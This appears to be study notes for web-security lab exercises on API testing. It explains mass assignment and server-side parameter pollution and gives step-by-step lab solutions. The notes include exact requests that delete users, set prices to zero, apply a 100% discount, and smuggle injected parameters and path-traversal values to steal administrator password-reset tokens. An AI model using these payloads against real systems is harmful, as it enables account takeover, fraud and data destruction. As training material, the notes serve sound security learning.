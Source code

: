 # API Testing
**Steps to start API testing:**
- Identify API endpoints (can use Burp Intruder)
- Determine how to interact with endpoints:
  - The input data the API processes, including both compulsory and optional parameters.
  - The types of requests the API accepts, including supported HTTP methods and media formats (try changing `Content-Type` header).
  - Rate limits and authentication mechanisms.

**Mass assignment vulnerabilities:**
Mass assignment (also known as auto-binding) can inadvertently create hidden parameters. It occurs when software frameworks automatically bind request parameters to fields on an internal object. Mass assignment may therefore result in the application supporting parameters that were never intended to be processed by the developer.

**Server-side parameter pollution:**
Server-side parameter pollution occurs when a website embeds user input in a server-side request to an internal API without adequate encoding.
To test for server-side parameter pollution in the query string, place query syntax characters like `#`, `&`, `/` and `=` in your input and observe how the application responds.
> It's essential that you URL-encode these characters.

### LAB: Exploiting an API endpoint using documentation
Found this API endpoint when updating user's email: `PATCH /api/user/wiener`. Change the request method to `OPTIONS` and found out `DELETE, GET, PATCH` are allowed. Change the request method to `DELETE` and the username to `carlos` to successfully delete user carlos:

    DELETE /api/user/carlos 

### LAB: Finding and exploiting an unused API endpoint
Found the `/api/products/1/price` in a `GET` request which returns:

    {
      "price":"$0.00",
      "message":"&#x1F525;&#x1F525;&#x1F525; Our warehouse is on fire, purchase now before all stock is burnt to a crisp! &#x1F525;&#x1F525;&#x1F525;"
    }

Use `OPTIONS` to make a request to this endpoint and observes that it also allows `PATCH` method. Change the request method to `PATCH` and add this body to successfully change the price of the product to `$0.00`:

    {
      "price":0
    }

### LAB: Exploiting a mass assignment vulnerability
Found the `/api/checkout` in a `GET` request which returns:

    {
      "chosen_discount":{
        "percentage":0
      },
      "chosen_products":[
        {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,
          "item_price":133700
        }
      ]
    }

Use `OPTIONS` to make a request to this endpoint and observes that it also allows `POST` method. Change the request method to `POST` and add this body:

    {
      "chosen_discount":{
        "percentage":100
      },
      "chosen_products":[
        {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,
          "item_price":133700
        }
      ]
    }

As the result, the product is bought with 100% discount:

    HTTP/2 201 Created
    Location: /cart/order-confirmation?order-confirmed=true
    X-Frame-Options: SAMEORIGIN
    Content-Length: 0

### LAB: Exploiting server-side parameter pollution in a query string
Notice an API endpoint when posting this request:

    POST /forgot-password HTTP/2

    csrf=TUsQP24XgJ8l6AzpP5JtEdP5rdSt2n5z&username=administrator

Try truncate the API call by appending the fragment symbol (`%23`) after the username's value. Notice the response indicating there is a `field` parameter. When we send this request:

    POST /forgot-password HTTP/2

    csrf=TUsQP24XgJ8l6AzpP5JtEdP5rdSt2n5z&username=administrator%26field=username

Notice the response is now showing us the username's value:

    {"type":"username","result":"administrator"}

Notice in the `/static/js/forgotPassword.js`, there is a parameter named `reset_token`. To reset the administrator's password, we need to retrieve this value. Try sending request:

    POST /forgot-password HTTP/2

    csrf=TUsQP24XgJ8l6AzpP5JtEdP5rdSt2n5z&username=administrator%26field=reset_token

Now the response is giving us the `reset_token` value. Use this access the reset password page and reset the password. Login to the admin's account and delete user Carlos.

### LAB: Exploiting server-side parameter pollution in a REST URL
At the `POST /forgot-password HTTP/2`, try path traversal by injecting in the username value:

    username=../../../../%23

This gives an error of not found, which indicates that we have reached the root directory. Try fuzzing with some common API endpoint and found that with:

    username=../../../../openapi.json%23

The server is returning this error:

    {
      "error": "Unexpected response from API server:
      {
          \"openapi\": \"3.0.0\",
          \"info\": {
            \"title\": \"User API\",
            \"version\": \"2.0.0\"
          },
          \"paths\": {
            \"/api/internal/v1/users/{username}/field/{field}\": {
              \"get\": {
                \"tags\": [
                  \"users\"
                ],
                \"summary\": \"Find user by username\",
                \"description\": \"API Version 1\",
                \"parameters\": [
                    {
                      \"name\": \"username\",
                      \"in\": \"path\",
                      \"description\": \"Username\",
                      \"required\": true,
                      \"schema\": {
                        ..."
    }

Take note of the path `/api/internal/v1/users/{username}/field/{field}`. This time try fuzzing the field value. Just like the above lab, we have found a parameter that could reference the reset token. Send this request:

    username=administrator/field/passwordResetToken%23

This time the server returns with an error indicating that this version of API only accepts the email field. To bypass this, try changing the API version with path traversal:

    username=../../v1/users/administrator/field/passwordResetToken%23

This time, we successfully retrieve the reset password token. Use it to solve the lab.